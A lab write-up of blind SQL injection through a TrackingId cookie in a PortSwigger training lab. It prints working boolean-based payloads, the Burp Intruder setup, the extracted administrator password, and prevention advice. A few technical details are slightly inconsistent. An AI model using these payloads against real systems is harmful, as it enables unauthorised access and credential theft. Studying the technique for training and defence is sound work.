

# Blind SQL injection with conditional responses

| Field | Value |
|---|---|
| **Difficulty** | Practitioner |
| **Category** | SQL Injection |
| **Lab URL** | `https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses` |

---

## Lab Objective

The application uses a `TrackingId` cookie for analytics and runs a SQL query containing the cookie value. The query results are not returned and no database errors are shown — but the page displays a "Welcome back" message when the query returns any rows. Exploit this behavioral difference to determine the `administrator` user's password, then log in as `administrator`.

---

## Skills Learned

- What makes an injection "blind" and how to read a boolean oracle
- Building boolean conditions that make the app behave differently on TRUE vs FALSE
- Extracting data character by character with `SUBSTRING()` and `LENGTH()`
- Automating the extraction with Burp Intruder (Cluster Bomb + Grep-Match)
- Confirming results by validating every TRUE/FALSE response

---

## What Is Blind SQL Injection?

In a **normal** SQL injection the database output ends up in the page — the attacker can read the result directly.

In a **blind** SQL injection the database output is hidden. No data is returned and no SQL errors are printed. The attacker cannot see the query result, so they infer information from how the **application behaves** instead.

The lab gives one observable signal:

```text
TRUE  → "Welcome back" is displayed
FALSE → "Welcome back" is absent
```

This turns the whole app into an oracle: any query I can phrase as a yes/no condition reveals one bit of information per request.

---

## Understanding the Boolean Condition

The `TrackingId` cookie value is concatenated into a SQL query. I can close the existing string and append my own condition:

```sql
SELECT tracking_id FROM tracking WHERE tracking_id = 'xyz' AND '1'='1'
```

With `' AND '1'='1` the injected condition is always true, the query returns a row, and the page greets me:

```text
TrackingId=xyz' AND '1'='1          → TRUE  → "Welcome back"
TrackingId=xyz' AND '1'='2          → FALSE → no "Welcome back"
```

The `'` closes the cookie string, the `AND` appends a boolean I control, and the `--` comments out whatever SQL followed the original value. Every TRUE/FALSE pair is then driven by whatever comparison I insert.

---

## Confirming the `users` Table

Before extracting anything, I confirmed the target table exists:

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```

Conceptually:

- `SELECT 'a' FROM users` returns the string `'a'` if the table has at least one row, or nothing if the table doesn't exist
- `LIMIT 1` guarantees at most one row so the subquery returns exactly one value
- The outer comparison `='a'` is only true when the table exists and returned `'a'`

A "Welcome back" message confirmed the `users` table exists.

---

## Confirming the Administrator User

Next I confirmed a `administrator` row exists by narrowing the subquery with a `WHERE`:

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Now the subquery only returns `'a'` when a row matches `username='administrator'`. The server greeted me again — the account exists.

---

## Determining the Password Length

To extract the password I first needed to know how long it is. `LENGTH()` returns the number of characters in a string, so I tested it as a boolean condition:

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users
                     WHERE username='administrator'
                     AND LENGTH(password)>1)='a
```

I incremented the length check until the condition flipped from TRUE to FALSE. The final TRUE value was:

```text
LENGTH(password) = 20 characters
```

---

## Understanding SUBSTRING()

Password extraction needs the character at a given position. `SUBSTRING()` pulls a slice out of a string:

```sql
SUBSTRING(password,20,1)
```

- `password` — the string being examined
- `20` — the starting character position (1-based)
- `1` — the number of characters to extract

So `SUBSTRING(password,20,1)` means *"give me the 20th character of the password"*.

That single character can then be compared to a candidate:

```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,20,1)
                     FROM users
                     WHERE username='administrator')='p
```

Read as: *"is the 20th character of the administrator's password equal to `p`?"* TRUE → that's the character, FALSE → try the next one.

---

## Using Burp Repeater

Before automating anything, I confirmed the technique manually in Repeater. I sent requests like:

```http
Cookie: TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

and watched whether "Welcome back" appeared in the response. Manually flipping candidate characters taught me to trust the boolean signal: a greeting (or its absence) was a clean, unambiguous answer for each position. This is also where I confirmed that both the "Welcome back" text and the response length change between TRUE and FALSE, so either could be used as a marker.

I initially had configuration issues with Intruder and produced misleading results — a reminder to always sanity-check automated output against one or two manual probes before trusting it.

---

## Using Burp Intruder

Repeater works, but 20 positions × 36 candidate characters is 720 individual requests — exactly what Intruder is built for.

### Sniper vs Cluster Bomb

- **Sniper** — one payload position, tests one list of values
- **Cluster Bomb** — multiple payload positions, tests **every combination** of the lists

This lab needed two changing values per request (the position AND the character), so **Cluster Bomb** was the right choice.

### Configuration

- **Payload 1** — password position: `1` through `20`
- **Payload 2** — candidate character: `0-9`, `a-z`
- **Total requests:** 20 × 36 = **720**
- **Grep-Match:** `Welcome back` (the TRUE-response marker)

Cluster Bomb cycles through every (position, character) pair:

```text
1+a, 1+b, ... 1+z, 1+0, ... 1+9
2+a, 2+b, ... 2+z, 2+0, ... 2+9
...
20+a, 20+b, ... 20+z, 20+0, ... 20+9
```

When marking the payload with the standard position-by-position method, only the **candidate character** should be set as the second payload — the `SUBSTRING(password,1,1)='§a§` position holds the fixed position number in a Sniper-style pass, or both get marked for Cluster Bomb. With Cluster Bomb the request template uses one marker on the position and one marker on the character, so every combination is exercised.

### Grep-Match results

For each position, exactly one response contains "Welcome back" — the request whose payload character matched. The correct character shows:

```text
Welcome back = 1
```

The response **length** also differs between TRUE and FALSE responses, so it works as a secondary confirmation, but "Welcome back" is the lab's intended oracle and my primary signal.

---

## Intruder Results

| Position | Character |
|----------|-----------|
| 1 | t |
| 2 | a |
| 3 | d |
| 4 | 1 |
| 5 | l |
| 6 | j |
| 7 | p |
| 8 | j |
| 9 | l |
| 10 | 0 |
| 11 | k |
| 12 | l |
| 13 | u |
| 14 | d |
| 15 | k |
| 16 | a |
| 17 | y |
| 18 | y |
| 19 | 2 |
| 20 | p |

Extracted password:

```text
tad1ljpjl0kludkayy2p
```

I logged in with `administrator` and that password, and the lab marked **Solved**.



---

## Lessons Learned

- **Boolean-based blind SQL injection** — data exfiltration through TRUE/FALSE application behavior instead of response data
- **Response-based inference** — "Welcome back" present/absent is a read-write oracle
- **`LENGTH()`** — establishing a string's size as a boolean condition
- **`SUBSTRING()`** — pulling one character at a time from a known position
- **Burp Repeater** — manual validation of a single character before automation
- **Burp Intruder** — turning 720 manual requests into one automated attack
- **Cluster Bomb** — nested payloads for position × character combinations
- **Grep-Match** — flagging the "Welcome back" marker in the results table
- **Character-by-character extraction** — 36 guesses per position, 1 true result
- **Validate TRUE/FALSE responses** — a single trusted marker (and its absence) is the whole foundation; automation output should be spot-checked manually

---

## How to Prevent It

- **Parameterized queries / prepared statements** — the primary defense. Placeholders send user input as *data*, not SQL:

  ```python
  cursor.execute(
      "SELECT tracking_id FROM tracking WHERE tracking_id = ?",
      (tracking_id,),
  )
  ```

  Because the cookie value is bound as a parameter, the database never parses it as query syntax — `'` and `AND` have no special meaning, so the injected boolean can't alter the statement.

- **Validate and sanitize input** — even with parameterization, reject unexpected cookie formats against a whitelist.
- **Least-privilege database accounts** — the app's DB user should not be able to read `users` table credentials it doesn't need.
- **Secure coding practices** — never build SQL by string concatenation; centralize query construction and review.
- **Hide expected behavior** — don't leak query truth through distinguishable responses (the "Welcome back" oracle exists only because the app exposes it).

---

## References

- [PortSwigger: Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind)
- [PortSwigger: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)
- [OWASP: SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)